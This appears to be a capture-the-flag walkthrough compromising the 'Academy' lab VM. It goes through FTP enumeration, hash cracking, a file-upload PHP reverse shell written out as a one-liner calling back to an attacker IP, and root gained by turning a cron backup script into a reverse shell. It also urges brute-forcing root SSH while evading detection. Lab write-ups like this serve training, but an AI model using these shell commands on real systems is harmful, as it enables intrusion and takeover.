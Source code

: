 First of all set up academy on your VM ware , You can download the file from [here](https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH)

![](https://i.imgur.com/sqlEL3g.png)

Now use the logs `root:tcm` and you should be logged in successfully, Once logged in you can use the command `dhclient` followed by `ip a` to check for machine ip address

![](https://i.imgur.com/oVlP40y.png)

Time to run our Nmap scan on targets, first of all directly SSH to the target using the host system to make things easier for us to interact with the Machine instead of clicking VM Ware always

![](https://i.imgur.com/cTGXvph.png)

![](https://i.imgur.com/aGx2Ruw.png)

If you have problems connecting, Make sure to set network to bridge then run `dhclient` before `ip a` 

Running our Nmap scan , Query `nmap -p- -sCV 192.168.0.108 -v --min-rate=1000 -T4 -oN nmap_academy.txt`

![](https://i.imgur.com/v6wqzFu.png)

## Enumeration

> Usually in CTF's we erase enumerating port 22/SSH out of the board, cos' we don't usually go through that route except we find a valid username and start brute forcing for passwords, But in real-world scenario, You should brute force ssh using `root` as username and seeing if the account uses a weak credential, also try to see if you can bypass detection, like trying to log in over 500 attempts without getting detected, that is a security risk you should add to your reports


**Starting with FTP** 

We have anonymous login on FTP, so let start out with that, Remember nmap told us we have `anonymous` login with a `note.txt`

![](https://i.imgur.com/SHmlC7f.png)

Checking what the note.txt has, give us this 

![](https://i.imgur.com/MRhguMj.png)

Nice !!!, `cd73502828457d15655bbd7a63fb0bc8` , looks like a password though "Learn SQL😆" , but stored in MD5, you can use `hash-identifier` to check it out in kali , soo we will be cracking it using `john-the-ripper`  

![](https://i.imgur.com/BeXT0EU.png)

We got the password which is `student` , we need to try it out somewhere so since we found port 80/HTTP , let check it out

![](https://i.imgur.com/5hsUFWn.png)

We have a default Apache web page, trying out directory bruteforce gives us `academy` and `phpmyadmin` 

![](https://i.imgur.com/jnxSiyX.png)

Checking out `/academy` we have a login page, using the credentials we got `10201321:student` we were successfully logged in

![](https://i.imgur.com/MX9LNyp.png)

Navigating the websites i found a file upload vulnerability on `/academy/my-profile.php`

![](https://i.imgur.com/ORgyyqB.png)

We can upload our PHP reverse shell file, Get one from https://www.revshells.com/ , save it in a file with the `.php` extension and upload it as an image file, but before we do that start a netcat listener with `nc -lvnp 1337` , then go ahead with uploading the PHP file 

![](https://i.imgur.com/iS3YC7v.png)

Now paste in your reverse shell payload on the execute bar, i will be using `php -r '$sock=fsockopen("192.168.0.157",1337);exec("/bin/bash <&3 >&3 2>&3");'` for my payload, after pasting these you should get a connection on your terminal

![](https://i.imgur.com/xG9ZJFD.png)

Great, we got shell back as `www-data` so we need to do privilege escalation 

![](https://i.imgur.com/BoFJmdz.png)

We will be using `Linpeas.sh` for this lab, you can transfer it to the target system by using python and wget , also make sure to grant executable permissions and run with `./linpeas.sh`

![](https://i.imgur.com/X80fXIh.png)

We found a `backup.sh` folder on the home user `grimmie` but don't have write access to the file,  let keep hunting 

![](https://i.imgur.com/v4Tg06s.png)

![](https://i.imgur.com/gDzx9tR.png)

We definitely need a way to pivot to `grimmie` cos' user `grimmie` has a file in it home directory running as cron job, so we need to pivot to `grimmie` first then root

![](https://i.imgur.com/BaM9Dzy.png)

Looks like we have stored passwords somewhere, With this we can definitely escalate to `grimmie`

![](https://i.imgur.com/AEgi8Jd.png)

Using the find command i looked for where this password is located inside a file `find /var -type f -exec grep -l "My_V3ryS3cur3_P4ss" {} \;` , it was located under the `/var/www/html/academy/admin/includes/config.php` file

![](https://i.imgur.com/kEPayI7.png)

![](https://i.imgur.com/RK5Jhcp.png)

We can login using SSH, once logged in we can escalate privileges using the `backup.sh` file by editing it

![](https://i.imgur.com/MNkh58n.png)

![](https://i.imgur.com/hS6S34A.png)

We can see that this file is removing a zipped backup file and then somehow unzipping it to `/../../../../include` then granting it `r-w-x` execute permissions, let edit this file, i would replace all this with a bash reverse shell , so anytime the cron job runs it give me back a shell as `root`

![](https://i.imgur.com/24ZRCpY.png)

We got root successfully 🥳

![](https://i.imgur.com/ULfumcp.png)
